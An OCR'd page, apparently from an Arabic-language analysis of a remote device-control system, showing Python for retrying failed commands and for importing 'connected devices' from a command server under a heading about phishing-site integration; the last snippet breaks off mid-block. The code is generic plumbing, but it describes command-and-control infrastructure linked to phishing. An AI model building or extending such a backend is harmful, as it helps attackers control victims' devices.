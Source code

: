 ### ✅ **ب. نظام إدارة الأخطاء:**

```python
def handle_command_error(self, device_id: str, command: str, error: str):
    """معالجة أخطاء الأوامر"""
    try:
        # تسجيل الخطأ
        logger.error(f"خطأ في الأمر {command} للجهاز {device_id}: {error}")
        
        # إعادة المحاولة
        if self.should_retry_command(command):
            retry_result = self.retry_command(device_id, command)
            return retry_result
        
        # إرسال تقرير الخطأ
        self.send_error_report(device_id, command, error)
        
        return {
            'success': False,
            'error': error,
            'retried': True
        }
        
    except Exception as e:
        return {
            'success': False,
            'error': f"خطأ في معالجة الخطأ: {str(e)}"
        }
```

---

## 8. تحليل الربط مع موقع التصيد
### 8. Analysis of Phishing Site Integration

### ✅ **أ. آلية الربط:**

```python
def import_devices_from_web_interface(user_id):
    """استيراد الأجهزة من واجهة الويب"""
    try:
        # الاتصال بخادم الويب
        web_server_url = get_command_server_url()
        response = requests.get(f"{web_server_url}/api/devices/connected")
        
        if response.status_code == 200:
            devices = response.json().get('devices', [])
            
            # إضافة الأجهزة إلى قاعدة البيانات
            for device in devices:
                device_manager.add_device_auto(user_id, device['id'])
            
            return {
                'success': True,
                'devices_imported': len(devices)
            }
        else:
            return {
                'success': False,
                'error': f'HTTP {response.status_code}'
            }
            
    except Exception as e:
```